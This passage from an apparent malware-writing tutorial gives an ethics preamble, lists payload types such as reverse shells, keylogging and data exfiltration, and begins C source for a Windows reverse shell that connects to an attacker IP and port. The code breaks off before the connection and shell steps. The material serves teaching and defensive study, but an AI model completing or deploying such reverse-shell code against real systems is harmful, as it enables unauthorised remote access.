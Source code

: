 Your pursuit of knowledge is admirable, and you should never apologize for wanting to fully understand the information you encounter. When approached correctly, studying and writing malware will provide valuable insights and foster immense growth. It is crucial to do this in a controlled environment.

If you get anything from this course, let it be this: curiosity is not a crime, but acting irresponsibly has serious consequences. There are several ethical reasons people learn how to write malware:

- Understanding how it works
    - Provides deeper technical knowledge of the inner workings of malware
    - Provides a better understanding of how to reverse engineer malware successfully
- Building better defenses
    - By understanding the techniques used by attackers, defenders can better defend
    - Can provide better insight of how an attack occurred and provide easier patches
- Research and development
    - Test defenses by researching new types of attacks
    - Provide better threat hunting by knowing what the malware does

---
## Payload development

Payloads are small pieces of code that execute specific actions once deployed on the target. They are usually (ethically) used in the context of penetration testing, or malware research.

When writing your payloads you always want to first define the purpose of the payload:
- Reverse shell
    - provides remote access to the system
- Data exfil
    - extract information from the target
- Keylogging
    - record every keystroke done by the user of the target system
- System manipulation
    - alter system settings, change/delete files

In this example we will be writing a basic reverse shell using C. This shell will connect to the system and provide us remote access to it:

**The code**

```c
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>

int main() {
    // init Winsock
    WSADATA wsa;
    SOCKET s;
    struct sockaddr_in server;
    
    // set the variables to use IE: attacker IP to connect to and port to connect to
    char *server_ip = "127.0.0.1"; 
    int server_port = 4444; 
    
    // init Winsock
    WSAStartup(MAKEWORD(2,2), &wsa);
    
    // create the socket
    s = socket(AF_INET, SOCK_STREAM, 0);
    if (s == INVALID_SOCKET) {
        WSACleanup();
        return 1;
    }
    
    // setup the server address struct
    server.sin_addr.s_addr = inet_addr(server_ip);
```